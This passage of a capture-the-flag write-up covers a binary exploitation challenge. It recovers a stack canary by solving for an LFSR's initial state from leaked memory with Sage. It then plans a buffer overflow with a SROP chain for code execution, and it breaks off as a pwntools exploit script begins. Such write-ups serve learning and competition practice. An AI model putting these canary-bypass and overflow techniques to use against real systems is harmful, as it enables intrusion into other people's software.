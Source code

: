 ```python
  kvec[i] = a[i].constant_coefficient()

target = 0x19d28388ffd157ce
padlen = 64 -len( list(( ZZ(target).digits(base=2)[::-1] )))
c = vector(GF(2), [0]*padlen + list(( ZZ(target).digits(base=2)[::-1] )))
result = kmat.inverse() * (c-kvec)

print(hex(int(''.join(str(_) for _ in list(result )),2)))
```

you can see that in the sage script, I put in var `target` the 64 bits output that I got from qiling above (5*12bits + 4bits from the last 12bits)

let's try with sage:

```bash
sage test.temp.sage
0xf58a663dbfabf188
```

we can see that from these 64bits output from the **LFSR**, sage has been able to calculate the inital state of the **LFSR**,

`0xf58a663dbfabf188`

that is the same as the initial state in the qiling picture above, the one returner by getrandom()

CQFD, 

then we code the LFSR in python , and we can calculate the canary now that we can retrieve the initital_state..

------

5. ### Last but not least,  the exploitation.

Well, now that we know how to calculate the canary from the leaked **LFSR** output.

<u>We have a plan:</u>

1. leak all the memory mappings that we can, using the OOB read vulnerability in `see_scoreboard()` function
2. calculate the 64bits output by the **LFSR** from these mappings
3. calculate the inital state `rand_state` of the **LFSR** with sage
4. calculate the canary value with `rand_state`
5. play the dump game, and loose it
6. forge a payload with the canary and some rop gadgets from known memory zone
7. Use the buffer overflow in `get_player_name()` function to have code execution

I will pass quickly on the ROP we use,  it's a classic SIGROP shellcode, as we had little gadgets available to set registers,

you can have a look to the final exploit for it..

So here is the final exploit, with the sage script integrated and converted to python:

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from sage.all import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./loader')

host, port = "fixedaslr.2022.ctfcompetition.com", "1337"

if args.REMOTE:
  p = remote(host,port)
```